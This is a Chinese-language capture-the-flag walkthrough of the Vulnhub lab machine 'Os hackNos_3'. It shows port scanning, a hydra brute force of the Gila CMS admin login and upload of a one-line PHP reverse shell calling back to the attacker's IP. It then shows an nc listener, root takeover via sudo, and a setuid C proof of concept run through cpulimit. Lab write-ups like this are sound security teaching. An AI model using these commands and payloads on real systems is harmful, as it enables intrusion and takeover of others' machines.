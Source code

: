 ```yaml
---
layout: post
title: "Os hackNos_3 walkthrough"
date: 2021-06-28
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP               |
| ------------- | ---------------- |
| 本机（Win10） | `192.168.36.234` |
| Kali          | `192.168.36.89`  |
| OS-hackNos-3  | `192.168.36.226` |

### 扫描端口和版本信息

`nmap -A 192.168.36.226`

```shell
┌──(root💀kali)-[~]
└─# nmap -A 192.168.36.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-28 06:17 UTC
Nmap scan report for 192.168.36.226
Host is up (0.014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ce:16:a0:18:3f:74:e9:ad:cb:a9:39:90:11:b8:8a:2e (RSA)
|   256 9d:0e:a1:a3:1e:2c:4d:00:e8:87:d2:76:8c:be:71:9a (ECDSA)
|_  256 63:b3:75:98:de:c1:89:d9:92:4e:49:31:29:4b:c0:ad (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: WebSec
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

输出结果清晰了然，只开启了**22**、**80**端口，并且根据主页面中的这条*You need extra **WebSec***提示信息，在*/websec*目录下看到网站内容。

使用*whatweb*工具收集信息，知道网站使用的是**Gila CMS**，下一步我们应该确定该CMS的版本，不过这比较困难(试过许多，但是找不到😢)

```shell
┌──(root💀kali)-[~]
└─# whatweb http://192.168.36.226/websec
http://192.168.36.226/websec/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@hacknos.com,your-email@your-domain.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.36.226], JQuery, MetaGenerator[Gila CMS], Script
```

之后只能试试暴力破解登录密码，不过在*http://192.168.36.226/websec/admin/*登录页面中发现登录名使用的是邮件地址，因此可以确定该地址是主页面中的*contact@hacknos.com*，那么我们只需要爆破密码即可。

这里，我们可以使用*cewl*工具来生成密码文件：` cewl http://192.168.36.226/websec/ -w cewl_gila.txt`，而不必使用很大的*rockyou.txt*密码文件。接下来就使用*hydra*工具进行密码爆破。

> *hydra*工具使用方法：`hydra -L <用户名列表> -P <密码列表> <IP地址> <表单参数> <登录失败消息>`

```shell
┌──(root💀kali)-[~]
└─# hydra -l contact@hacknos.com -P cewl_gila.txt 192.168.36.226 http-post-form "/websec/admin:username=^USER^&password=^PASS^:Wrong email or password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-28 08:00:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 53 login tries (l:1/p:53), ~4 tries per task
[DATA] attacking http-post-form://192.168.36.226:80/websec/admin:username=^USER^&password=^PASS^:Wrong email or password
[80][http-post-form] host: 192.168.36.226   login: contact@hacknos.com   password: Securityx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-28 08:00:37
```

至此我们得到了用户名和密码：`contact@hacknos.com:Securityx`，使用该账户和密码登录到后台，发现该CMS的版本号是**1.10.9**。之后在*searchsploit*搜索结果中发现该版本存在LFI漏洞，该漏洞点存在于*/admin/fm/?f=../../*中。通过阅读开发文档可以知道该路径*/admin/fm*是进行文件管理操作，在进行上传操作后文件保存在*/assets/*下，不过在上传具有反向shell的PHP文件前，需要更改*.htaccess*配置，在这里直接删除即可。

```php
<?php $sock=fsockopen("192.168.36.89",6677);$proc=proc_open("/bin/bash -i",array(0=>$sock,1=>$sock),$pipes);?>
```

### Getshell

```shell
┌──(root💀kali)-[~]
└─# nc -lvp 6677
listening on [any] 6677 ...
192.168.36.226: inverse host lookup failed: Unknown host
connect to [192.168.36.89] from (UNKNOWN) [192.168.36.226] 59954
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
getshell.php
gila-logo.png
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@hacknos:/var/www/html/websec/assets$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

在查看该账户具备SUID权限命令时，返回中的信息提示需要进行查找，并且不太容易。

```shell
www-data@hacknos:/var/www/html/websec/assets$ sudo -l
sudo -l
Matching Defaults entries for www-data on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on hacknos:
    (www-data) NOPASSWD: /not/easy/What/are/you/looking
```

不过在此之前，可以在*/home/blackdevil/*目录下得到第一个flag：

```shell
www-data@hacknos:/home/blackdevil$ cat user.txt
cat user.txt
bae11ce4f67af91fa58576c1da2aad4b
```

经过许久查找，在*/var/local/*目录下找到一个数据库文件*database*，将其中的数据经过[解密](https://spammimic.com/spreadsheet.php?action=decode
)得到一串字符：`Security@x@`。之后经过尝试知道该字符串是*blackdevil*账户的密码。

### 提权

切换到*blackdevil*账户后，发现该账户具备sudo权限，后续步骤就简单了。

```shell
blackdevil@hacknos:~$ sudo -l
sudo -l
[sudo] password for blackdevil: Security@x@

Matching Defaults entries for blackdevil on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User blackdevil may run the following commands on hacknos:
    (ALL : ALL) ALL
blackdevil@hacknos:~$ sudo passwd root
sudo passwd root
New password: toor

Retype new password: toor

passwd: password updated successfully
blackdevil@hacknos:~$ su root
su root
Password: toor

root@hacknos:/home/blackdevil# cd /root
cd /root
root@hacknos:~# ls
ls
root.txt  snap
root@hacknos:~# cat root.txt
cat root.txt
########    #####     #####   ########         ########
##     ##  ##   ##   ##   ##     ##            ##     ##
##     ## ##     ## ##     ##    ##            ##     ##
########  ##     ## ##     ##    ##            ########
##   ##   ##     ## ##     ##    ##            ##   ##
##    ##   ##   ##   ##   ##     ##            ##    ##
##     ##   #####     #####      ##    ####### ##     ##


MD5-HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

Blog: www.hackNos.com

Linkedin: https://in.linkedin.com/in/rahulgehlaut
```

### 总结

1. 在进行密码爆破前，使用的密码文件可以先用*cewl*工具生成，不行就使用*rockyou.txt*文件作为密码文件

2. 在提权操作中，另一种操作就是利用**cpulimit**进行提权：

   1. Ubuntu编译PoC

      ```c
      #include<stdio.h>
      #include<unistd.h>
      #include<sys/types.h>
      
      int main()
      {
        setuid(0);
        setgid(0);
        system("/bin/bash");
        return 0;
      }
      // gcc poc.c -o poc
      // chmod 777 ./poc
      ```

   2. 执行PoC

      ```shell
      www-data@hacknos:/tmp$ cpulimit -l 100 -f ./poc
      ```

      